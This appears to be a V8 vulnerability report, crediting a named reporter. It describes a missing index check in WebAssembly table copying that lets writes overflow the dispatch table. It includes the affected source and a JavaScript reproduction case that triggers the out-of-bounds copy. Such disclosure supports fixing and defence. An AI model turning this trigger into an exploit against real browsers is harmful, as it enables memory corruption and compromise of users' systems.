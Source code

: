 <b>VULNERABILITY DETAILS</b>
```
bool WasmInstanceObject::CopyTableEntries(Isolate* isolate,
                                          Handle<WasmInstanceObject> instance,
                                          uint32_t table_src_index,
                                          uint32_t table_dst_index,
                                          uint32_t dst, uint32_t src,
                                          uint32_t count) {
..........
  Handle<FixedArray> dispatch_tables(table->dispatch_tables(), isolate);
  for (int i = 0; i < dispatch_tables->length();
       i += kDispatchTableNumElements) {
    Handle<WasmInstanceObject> target_instance(
        WasmInstanceObject::cast(
            dispatch_tables->get(i + kDispatchTableInstanceOffset)),
        isolate);
    CopyTableEntriesImpl(target_instance, dst, src, count, copy_backward);
  }
```
v8 engine use table 0 to be dispatch table. So dispatch table is fixed to table 0 size
When copy to dispatch table, it must check whether or not its index is zero. if not, can be overflow
<b>VERSION</b>
V8 version 7.7.0

<b>REPRODUCTION CASE</b>
load('test/mjsunit/wasm/wasm-module-builder.js');
let instance;
let instance2;
let table1 = new WebAssembly.Table({initial:0x1, maximum:0x1, element: "anyfunc"});
let table2 = new WebAssembly.Table({initial:0x100, maximum:0x100, element: "anyfunc"});

{
  let builder = new WasmModuleBuilder();

  const void_sig = builder.addType(kSig_i_i);

  const func_index = builder.addImport("q","func",void_sig);
  let sig_v_iii = builder.addType(kSig_v_iii);

  builder.addExport("hack", func_index);

  const table_index1 = builder.addImportedTable("q", "table1", 0x1, 0x1);
  const table_index2 = builder.addImportedTable("q", "table2", 0x100, 0x100);
  builder.addFunction("copy", sig_v_iii)
  .addBody([
    kExprGetLocal, 0,
    kExprGetLocal, 1,
    kExprGetLocal, 2,
    kNumericPrefix, kExprTableCopy, table_index1, table_index1])
  .exportAs("copy");

  let wasm_m = builder.toModule();

  let func = (v)=>{
    return 1;
  }
  instance = new WebAssembly.Instance(wasm_m, {q:{table1:table1, table2:table2, func:func}});
}
{
  let builder = new WasmModuleBuilder();

  const void_sig = builder.addType(kSig_i_i);

  const func_index = builder.addImport("q","func",void_sig);
  let sig_v_iii = builder.addType(kSig_v_iii);

  builder.addExport("hack", func_index);

  const table_index1 = builder.addImportedTable("q", "table1", 0x100, 0x100);
  const table_index2 = builder.addImportedTable("q", "table2", 0x1, 0x1);
  builder.addFunction("copy", sig_v_iii)
  .addBody([
    kExprGetLocal, 0,
    kExprGetLocal, 1,
    kExprGetLocal, 2,
    kNumericPrefix, kExprTableCopy, table_index1, table_index1])
  .exportAs("copy");

  let wasm_m = builder.toModule();
  let func = (v)=>{
    return 1;
  }
  instance2 = new WebAssembly.Instance(wasm_m, {q:{table1:table2, table2:table1, func:func}});
}
instance2.exports.copy(0, 20, 40);



<b>CREDIT INFORMATION</b>
Reporter credit: Woojin Oh (@pwn_expoit)

